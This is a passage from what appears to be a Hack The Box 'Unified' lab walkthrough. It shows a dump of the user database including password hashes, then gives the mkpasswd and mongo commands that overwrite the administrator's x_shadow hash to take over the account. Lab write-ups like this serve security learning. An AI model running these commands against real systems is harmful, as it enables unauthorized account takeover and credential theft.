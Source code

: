![1](/assets/images/htb/unified/admin-hash.png)

After we press `Enter`. The output is so ridiculous its dumps all users, email, password hash, etc. The most important data we want to take a look at is `administrator`. 

# <font color="#9bffc8">change administrator x_shadow</font>
So, as I said before, I'm gonna use the `official walkthrough` way to change administrator `x_shadow` but again it is up to you. How you want to approach it. 
Well, the first thing we want to do is generate a `sha-512` hash. To do this we can use the `mkpasswd` command-line utility. So, the command should look like this:

# <font color="#9bffc8">generate sha-512 hash</font>

```bash
mkpasswd -m sha-512 yourdesirepassword
```

![1](/assets/images/htb/unified/mkpasswd.png)

Let's proceed to replacing the existing hash with one we created. To do it, type this command:

```bash
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA-512 Hash Generated"}})'
```
